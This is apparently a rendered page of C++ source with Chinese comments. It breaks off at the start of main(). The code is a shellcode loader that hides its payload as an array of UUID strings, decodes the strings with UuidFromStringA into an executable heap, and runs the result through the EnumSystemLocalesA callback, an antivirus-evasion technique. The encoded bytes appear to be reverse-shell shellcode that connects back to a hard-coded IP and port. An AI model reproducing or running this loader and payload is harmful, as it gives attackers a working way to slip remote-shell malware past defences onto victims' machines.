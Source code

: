 ```cpp
const char* uuids[] = { "008fe8fc-0000-3160-d264-8b523089e58b","528b0c52-8b14-2872-0fb7-4a2631ff31c0","7c613cac-2c02-c120-cf0d-01c74975ef52","10528b57-428b-013c-d08b-407885c0744c","8b50d001-2058-488b-1801-d385c9743c31","348b49ff-018b-31d6-c0c1-cf0dac01c738","03f475e0-f87d-7d3b-2475-e0588b582401","0c8b66d3-8b4b-1c58-01d3-8b048b01d089","5b242444-615b-5a59-51ff-e0585f5a8b12","ffff80e9-5dff-3368-3200-00687773325f","774c6854-0726-e889-ffd0-b89001000029","685054c4-8029-006b-ffd5-6a0a68c0a82f","0002689b-5c11-e689-5050-505040504050","df0fea68-ffe0-97d5-6a10-56576899a574","85d5ff61-74c0-ff0a-4e08-75ece8670000","6a006a00-5604-6857-02d9-c85fffd583f8","8b367e00-6a36-6840-0010-0000566a0068","e553a458-d5ff-5393-6a00-5653576802d9","d5ff5fc8-f883-7d00-2858-68004000006a","0b685000-0f2f-ff30-d557-68756e4d61ff","ff5e5ed5-240c-850f-70ff-ffffe99bffff","29c301ff-75c6-c3c1-bbf0-b5a2566a0053","9090d5ff-9090-9090-9090-909090909090" };


int UuidLoader() {
    
    // 创建一个具有执行权限的堆
    HANDLE hc = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, 0, 0);

    // 在堆上分配一块可执行内存
    void* buffer = HeapAlloc(hc, 0, 0x100000);

    // 检查内存分配是否成功，如果失败则输出错误信息并返回0
    if (buffer == NULL) {
        cout << "内存申请失败！" << endl;
        return 0;
    }

    
    PBYTE buffer_backup = (PBYTE)buffer;  //定义一个存储uuid转换成的二进制字节序列(shellcode)
    int elems = sizeof(uuids) / sizeof(uuids[0]);  //获取uuid数组元素的个数

    /*
    UuidFromStringA函数将UUID值转换成二进制字节序列,其语法格式如下:
    RPC_STATUS UuidFromStringA(
        RPC_CSTR StringUuid,  //指向uuid形式的字符串的指针
        UUID * Uuid  //用于接收二进制字节序列的指针
    );
    */
    // 遍历uuids数组,并将UUID转换回原始的shellcode,然后存储在buffer_backup地址
    for (int i = 0; i < elems; i++) {
        RPC_STATUS status = UuidFromStringA((RPC_CSTR)uuids[i], (UUID*)buffer_backup);
        if (status != RPC_S_OK) {
            cout << "UuidFromStringA() != S_OK" << endl;
            CloseHandle(buffer);
            return -1;
        }
        buffer_backup += 16;  
    }
    
    /*
   EnumSystemLocalesA函数用于枚举系统中支持的所有区域设置,其语法格式如下:
   BOOL EnumSystemLocalesA(
     LOCALE_ENUMPROCA lpLocaleEnumProc,  //处理每个枚举到的区域设置信息的回调函数的地址
     DWORD            dwFlags  //指定枚举的方式
   );
   */
    // 使用 EnumSystemLocalesA 函数调用转换回的 shellcode
    EnumSystemLocalesA((LOCALE_ENUMPROCA)buffer, 0);

    // 关闭内存句柄
    CloseHandle(buffer);
}

void main() {
```